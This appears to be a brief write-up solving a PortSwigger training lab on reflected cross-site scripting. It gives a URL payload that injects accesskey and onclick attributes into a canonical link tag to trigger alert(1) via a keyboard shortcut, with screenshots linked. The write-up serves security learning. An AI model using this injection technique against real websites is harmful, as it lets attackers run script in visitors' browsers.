 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/5bc0c192-9ac7-412f-9476-518683617ae1)

## Solution:

Change the URL by adding ```?%27accesskey=%27x%27onclick=%27alert(1)```

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/d37f1608-239e-4c96-bced-534762f55a59)

by pressing ```ALT+SHIFT+X``` we can get the alert box

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/8d48263c-f596-4957-8e6e-f31e3894cc9e)

Lab Solved
